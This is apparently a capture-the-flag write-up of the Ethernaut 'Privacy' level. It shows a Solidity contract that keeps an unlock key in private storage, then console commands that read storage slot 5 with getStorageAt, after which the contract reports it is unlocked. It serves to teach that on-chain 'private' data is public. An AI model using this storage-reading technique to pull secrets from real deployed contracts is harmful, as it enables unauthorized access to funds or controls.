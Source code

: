 # Target Contract Review

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Privacy {

  bool public locked = true;
  uint256 public ID = block.timestamp;
  uint8 private flattening = 10;
  uint8 private denomination = 255;
  uint16 private awkwardness = uint16(block.timestamp);
  bytes32[3] private data;

  constructor(bytes32[3] memory _data) {
    data = _data;
  }
  
  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
  }

  /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
  */
}
```

Challenge's  message:

>The creator of this contract was careful enough to protect the sensitive areas of its storage. Unlock this contract to beat the level.
Things that might help: - Understanding how storage works - Understanding how parameter parsing works - Understanding how casting works



# Subverting

```shell
await contract.locked()
true
```

```shell
await web3.eth.getStorageAt("0x9723e4E6B0F5A32329253F55a80f29fFf3ae73d5", 5)
'0x7ec6a7b3fd05ab43951c4d7f2ed28ebdd4e5d435279430a3fd6b0f1df716e32d'
```

```shell
await contract.locked()
false
```
